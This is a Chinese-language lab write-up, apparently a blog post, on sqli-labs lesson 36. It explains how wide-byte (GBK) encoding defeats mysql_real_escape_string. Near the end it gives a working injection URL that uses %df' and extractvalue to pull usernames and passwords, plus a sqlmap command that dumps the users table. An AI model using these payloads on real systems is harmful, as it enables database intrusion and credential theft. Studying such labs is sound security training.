 ```yaml
---
title: sqli-labs lession-36 GET-绕过Mysql_real_escape_string
date: 2018-10-15 20:50:48
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-36 GET-绕过Mysql_real_escape_string

---

## 登录界面

![001](/img/sql/Lesson-36/001.png)

## 分析

![002](/img/sql/Lesson-36/002.png)

![003](/img/sql/Lesson-36/003.png)

mysql_query( "SET NAMES gbk");这一句的作用能使三个字符集（客户端、连接层、结果集）都是GBK编码,分别对应`SET character_set_client = utf8;`，`SET character_set_results = utf8;`，`SET character_set_connection = utf8;`与AddSlashes不同的是mysql_query会考虑到连接的字符集。按理来说应该避免了宽字节绕过,下面查找下原因。

使用 `Show variables like "cha_%";`查看当前字符集。

![004](/img/sql/Lesson-36/004.png)

修改源代码临时使`security`字符集为gbk。

`mysql_query("SET character_set_connection=gbk, character_set_results=gbk,character_set_client=binary;");`

![005](/img/sql/Lesson-36/005.png)

修改后使用宽字节注入,发现执行失败。

![006](/img/sql/Lesson-36/006.png)

宽字节注入发生的位置就是`PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码`，然后服务器会根据character_set_connection把请求进行转码，从character_set_client转成character_set_connection，然后更新到数据库的时候，再转化成字段所对应的编码。

```
addSlashes函数:
%df%27===>(addslashes)====>%df%5c%27====>(GBK)====>運’
用户输入==>过滤函数==>代码层的$sql==>mysql处理请求==>mysql中的sql

mysql_real_escape_string函数：
如果mysql数据库中字符集也为gbk,与mysql_query("SET NAMES gbk");的编码相同就不会把%df和%5c拼接为一个宽字节的问题

```

而原来这里发生宽字节注入的原因是
`mysql_query( "SET NAMES gbk");`设置字符集后,`mysql_real_escape_string` 函数没有立即调用更新的字符集，而把原来的编码拿来用了。

## 注入

对于使用`mysql_query( "SET NAMES gbk");`的情况，如果mysql中编码不是gbk,依旧可以使用宽字节绕过。

其他的和前几课一样,这里直接拿上几课的payload来用。具体过程请看Lesson-32。

{% post_link sqli-labs-lession-32-GET-绕过自定义过滤器-向危险字符添加斜杠 点击查看Lesson-32%}

`http://192.168.75.132/sql/Less-36/?id=2%df' and extractvalue(null,concat(0x7e,(select concat(username,password) from users limit 0,1),0x7e))%23`

![007](/img/sql/Lesson-36/007.png)

## SQLMAP

一模一样直接上结果。

`sqlmap -u "http://192.168.75.132/sql/Less-36/?id=2'" --dbms mysql --technique E --tamper unmagicquotes.py --threads 10 -D security -T users --columns --dump`

![008](/img/sql/Lesson-36/008.png)

![009](/img/sql/Lesson-36/009.png)

![010](/img/sql/Lesson-36/010.png)